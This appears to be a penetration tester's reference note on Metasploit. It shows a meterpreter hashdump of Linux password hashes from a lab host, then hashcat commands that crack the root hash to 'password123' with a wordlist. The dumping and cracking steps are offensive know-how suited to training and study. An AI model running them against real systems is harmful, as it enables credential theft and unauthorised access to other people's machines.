 # C2 Frameworks

## Metasploit

TODO: Fill this info

```
meterpreter > run post/linux/gather/hashdump

[-] Failed to open file: /etc/security/opasswd: core_channel_open: Operation failed: 1
[+] root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:0:0:root:/root:/bin/bash
[+] user:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:1000:1000:user,,,:/home/user:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt
```

```
$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force
```

```
$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force --show
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Credentials/Password Cracking/Living off the Land]]

### Rapid7

- [Rapid7: Metasploit Framework - Crack Linux Auxiliary Analyze Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/analyze/crack_linux.md)